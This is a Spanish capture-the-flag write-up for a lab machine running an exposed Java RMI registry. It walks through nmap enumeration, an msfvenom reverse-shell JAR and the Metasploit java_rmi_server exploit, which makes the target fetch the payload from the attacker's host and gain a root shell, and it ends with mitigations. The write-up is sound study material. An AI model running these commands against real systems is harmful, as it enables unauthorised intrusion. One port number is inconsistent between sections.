










## Información General

| Campo                            | Valor                                                                              |
| -------------------------------- | ---------------------------------------------------------------------------------- |
| **Máquina**                      | Msfvenom (whoami-labs)                                                             |
| **Dificultad**                   | Fácil                                                                              |
| **IP Objetivo**                  | 172.17.0.2                                                                         |
| **Puertos Abiertos**             | 1099, 45325                                                                        |
| **Servicios**                    | Java RMI (GNU Classpath grmiregistry)                                              |
| **Vulnerabilidades Principales** | CVE-2011-3556 (RMI registry default classloader), CVE-2019-2684 (localhost bypass) |

---

## Resumen del Ataque

El objetivo expone un **Java RMI Registry (grmiregistry) en puerto 1099** con la configuración por defecto vulnerable. Esta configuración permite cargar clases desde URLs remotas arbitrarias, lo que deriva en **ejecución remota de código sin autenticación**. El ataque se ejecuta de forma íntegra mediante el módulo `exploit/multi/misc/java_rmi_server` de Metasploit Framework.

---

## Técnicas Usadas

1. **nmap + nmap scripts** — enumeración de servicios RMI y detección automática de vulnerabilidades
2. **Metasploit Framework** — módulo `auxiliary/scanner/misc/java_rmi_server` para confirmación, y `exploit/multi/misc/java_rmi_server` para explotación
3. **msfvenom** — generación de payload Java con reverse shell
4. **CVE-2011-3556** — RMI registry default configuration remote code execution (carga de clases remotas)
5. **CVE-2019-2684** — RMI registry localhost bypass (aunque en este caso el servicio ya estaba expuesto)

---

## Desarrollo

### 1. Escaneo inicial de puertos

```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```

**Output:**



Se identifican dos puertos abiertos: 1099 (rmiregistry estándar) y 45325.

### 2. Identificación de versiones y servicios

```bash
nmap -p 1099,45325 -sC -sV -oN allports 172.17.0.2
```

**Output:**



Puertos ejecutan **GNU Classpath grmiregistry** — una implementación alternativa y más antigua de RMI.

### 3. Verificación de vulnerabilidades con nmap scripts

```bash
nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p 1099 172.17.0.2
```

**Output:**



```
nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p 45325 172.17.0.2
```

**Output:**



**Confirmación crítica:** El script detecta la vulnerabilidad de classloader remoto en el registro RMI. Este es el vector de ataque.

### 4. Confirmación con Metasploit (scanner)

```bash
msfconsole -q
use auxiliary/scanner/misc/java_rmi_server
set RHOSTS 172.17.0.2
run
```

**Output:**



El scanner confirma que el Class Loader está **habilitado** — la puerta para explotación está abierta.

### 5. Generación del payload

```bash
msfvenom -p java/shell_reverse_tcp LHOST=192.168.241.128 LPORT=1234 -f jar -o shell.jar
```

**Output:**



Se genera un payload JAR con reverse shell TCP que se conectará a `192.168.241.128:1234` (máquina atacante).

### 6. Explotación con Metasploit

```bash
msfconsole -q
use exploit/multi/misc/java_rmi_server 
set RHOSTS 172.17.0.2 
set RPORT 1099 
set SRVHOST 192.168.241.128
set SRVPORT 8080 
set LHOST 192.168.241.128
set URIPATH /shell.jar
set LPORT 1234 
set HTTPDELAY 15
exploit
```



**Explicación de parámetros (valores reales que funcionaron):**

- `RHOSTS`: IP del objetivo (172.17.0.2)
- `RPORT`: Puerto del RMI registry (1099)
- `SRVHOST`: IP del servidor HTTP 
- `LHOST`: IP para la reverse shell — **DEBE SER IGUAL a SRVHOST** (192.168.241.128)
- `SRVPORT`: Puerto del servidor HTTP (8080)
- `URIPATH`: Ruta relativa (​`/shell.jar`)
- `LPORT`: Puerto donde escuchar la reverse shell (1234)
- `HTTPDELAY`: Segundos que el servidor HTTP permanece activo (15)

El módulo automáticamente:

1. Levanta un servidor HTTP en `SRVHOST:SRVPORT` con el payload
2. Se conecta al RMI registry en 1099
3. Inyecta una clase que intenta cargar el JAR desde la URL HTTP
4. La JVM del objetivo descarga y carga el payload
5. El payload ejecuta y establece la reverse shell hacia el atacante

### 7. Obtención de shell inversa

```bash
meterpreter > shell
bash -i
```

**Output:**



```
root@msfvenom:/# whoami
```



Se obtiene una sesión **interactiva como root**.

### 8. Captura de la flag


```bash
root@msfvenom:~# cd /root
root@msfvenom:~# cat flag.txt
```




```
JAVA{rm1_d3s3r14l1z4t10n_rce_3xpl01t}
```

**Flag capturada.**

---

## Lecciones Aprendidas

1. **RMI Registry nunca debe exponerse a redes no confiables** — la configuración por defecto de Java RMI registry permite la carga de clases desde cualquier URL, lo que es equivalente a RCE no autenticada.
2. **GNU Classpath está obsoleto** — aunque la máquina usa GNU Classpath en lugar de HotSpot/OpenJDK, la vulnerabilidad se mantiene igual. Classpath es una implementación antigua y menos mantenida.
3. **El CVE-2011-3556 sigue siendo crítico** — es una vulnerabilidad de más de 10 años, pero sigue siendo explotable en sistemas que no actualizan la configuración de RMI.
4. **Metasploit abstrae bien la complejidad RMI** — intentar explotar esto manualmente con `rmg` (remote-method-guesser) requiere entender deserialization gadgets, classpath issues, etc. Metasploit lo automatiza totalmente.
5. **El registro RMI no tenía bound names** — aunque se podría intentar CVE-2019-2684 (localhost bypass) para inyectar un objeto malicioso, el vector directo de classloader remoto fue más directo en este caso.
6. **Two RMI ports is not redundancy, it's exposure** — ambos puertos (1099 y 42061) están igualmente vulnerables. Exponer múltiples puertos de un servicio inseguro solo amplía la superficie de ataque.

---

## Medidas de Mitigación

1. **Aislar RMI registry de redes no confiables** — usar firewall para permitir acceso solo desde aplicaciones internas legítimas.
2. **Desactivar RMI registry si no es necesario** — muchas aplicaciones Java la instancian por defecto pero nunca la usan.
3. **Actualizar Java a versión moderna** — las versiones recientes incluyen filtros de serialización (JEP 290) y requieren configuración explícita para carga remota de clases.
4. **Configurar `java.rmi.server.useCodebaseOnly=true`** — impide que el servidor cargue clases desde codebases remotos proporcionados por clientes.
5. **Implementar Security Manager** — restricciones de seguridad en tiempo de ejecución pueden limitar qué recursos puede acceder la JVM.
6. **Monitorear intentos de conexión a RMI** — logs de acceso al puerto 1099, especialmente `bind`/`lookup`/`classloading` remotos.
7. **No usar GNU Classpath en producción** — migrar a OpenJDK o similar, que tienen más mantenimiento de seguridad.


